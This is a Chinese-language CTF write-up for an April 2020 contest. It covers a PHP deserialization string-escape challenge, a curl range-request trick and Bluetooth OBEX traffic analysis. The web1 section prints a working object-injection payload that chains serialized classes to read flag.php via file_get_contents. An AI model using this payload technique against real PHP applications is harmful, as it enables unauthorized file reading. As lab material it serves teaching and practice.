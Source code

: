 ```yaml
---
title: 安恒2020四月赛
date: 2020-04-25
tags: [CTF, WP]
categories:
- [CTF, WP]
comments: false
---
```

# 安恒2020四月赛

只会做做简单题混混分😢

<!-- more -->

## web1

```
<?php

show_source("index.php");
function write ($data) {
	return str_replace(chr(0) . '*' . chr(0), '\0\0\0', $data);
}

function read ($data) {
	return str_replace('\0\0\0', chr(0) . '*' . chr(0), $data);
}

class A {
	public $username;
	public $password;

	function __construct ($a, $b) {
		$this->username = $a;
		$this->password = $b;
	}
}

class B {
	public $b ="gpy";
	function __destruct () {
		$c = 'a' . $this->b;
		echo $c;
	}
}

class C {
	public $c;

	function __toString () {
		//flag.php
		echo file_get_contents($this->c);
		return 'nice';
	}
}
$a = new A($_GET['a'],$_GET['b']);
$b = unserialize(read(write(serialize($a))));
function read ($data) {
	return str_replace('\0\0\0', chr(0) . '*' . chr(0), $data);
}
```

read函数将`chr(0) . '*' . chr(0)`变为`\0\0\0`,但是前者只有三个字符,后者有六个字符,那么就会导致字符逃逸。

**payload**

```
?a=\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0&b=;s:";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}}
```

## MISC

### 6G签到

```
curl --range 0-100 http://balabala/1Gfile.file
```

### MISC1

下载是个流量包

简单浏览一下，是蓝牙的流量。

先按协议排一下序

[![mark](https://blogjpg.yanmy.top/blog/20200425/GegNB3OYmHCW.png?imageslim)](https://blogjpg.yanmy.top/blog/20200425/GegNB3OYmHCW.png?imageslim)

找蓝牙的传输协议OBEX

[![mark](https://blogjpg.yanmy.top/blog/20200425/UgRLRbitaEmw.png?imageslim)](https://blogjpg.yanmy.top/blog/20200425/UgRLRbitaEmw.png?imageslim)

把7z压缩包的数据块复制出来，用winhex或者010editor保存成7z文件，解压，要PIN

[![mark](https://blogjpg.yanmy.top/blog/20200425/0LBErJCiGVVb.png?imageslim)](https://blogjpg.yanmy.top/blog/20200425/0LBErJCiGVVb.png?imageslim)

去掉过滤器，`ctrl+f`查找一下有没有PIN，发现有的，解压得到flag

[![mark](https://blogjpg.yanmy.top/blog/20200425/PrkpItBPzngw.png?imageslim)](https://blogjpg.yanmy.top/blog/20200425/PrkpItBPzngw.png?imageslim)

[![mark](https://blogjpg.yanmy.top/blog/20200425/iWTFkcKX62gx.png?imageslim)](https://blogjpg.yanmy.top/blog/20200425/iWTFkcKX62gx.png?imageslim)

**好好学习，天天向上**